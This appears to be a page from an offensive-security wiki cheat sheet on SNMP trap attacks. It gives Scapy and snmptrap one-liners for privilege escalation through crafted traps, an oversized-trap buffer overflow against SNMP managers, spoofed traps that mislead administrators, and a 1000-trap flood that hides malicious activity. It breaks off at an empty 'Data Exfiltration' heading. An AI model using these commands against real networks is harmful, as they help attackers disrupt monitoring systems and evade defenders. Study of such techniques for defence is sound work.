 ### Privilege Escalation

#### Manipulating SNMP Configuration via Traps

*   **Tool:** \[\[Scapy]]

    ```python
    send(IP(src="<target_ip>")/UDP(dport=162)/SNMPv2Trap(community='private', varbindlist=[SNMPvarbind(oid='1.3.6.1.4.1.2021.11.50.0', value=1)]))
    ```
* **Description:** Sending a crafted trap to escalate privileges by altering the SNMP configuration on the target device.

#### Buffer Overflow in SNMP Managers

*   **Tool:** \[\[Scapy]]

    ```python
    send(IP(dst="<manager_ip>")/UDP(dport=162)/SNMP()/"A"*1024)
    ```
* **Description:** Exploit a buffer overflow vulnerability in an SNMP manager by sending an oversized SNMP trap message.

### Defense Evasion

#### Misdirection with Spoofed Traps

*   **Tool:** \[\[Scapy]]

    ```python
    send(IP(src="<legitimate_device_ip>")/UDP(dport=162)/SNMPv2Trap(community='public', varbindlist=[SNMPvarbind(oid='1.3.6.1.4.1.2021.11.50.0', value=0)]))
    ```

    ```python
    send(IP(dst="<manager_ip>", src="<spoofed_ip>")/UDP(dport=162)/SNMP())
    ```
* **Description:** Sending spoofed traps to mislead network administrators and create false alarms, while diverting attention from actual malicious activity.

#### Hiding in SNMP Trap Storms

*   **Tool:** \[\[SNMPTrap]]

    ```bash
    for i in {1..1000}; do snmptrap -v2c -c public <manager_ip> "" .1.3.6.1.2.1.1.3.0 .1.3.6.1.4.1.8072.2.3.0.1; done
    ```
* **Description:** Flood the SNMP manager with traps to obscure malicious activity or distract administrators.

### Data Exfiltration

#### Exfiltrating Data via SNMP Traps
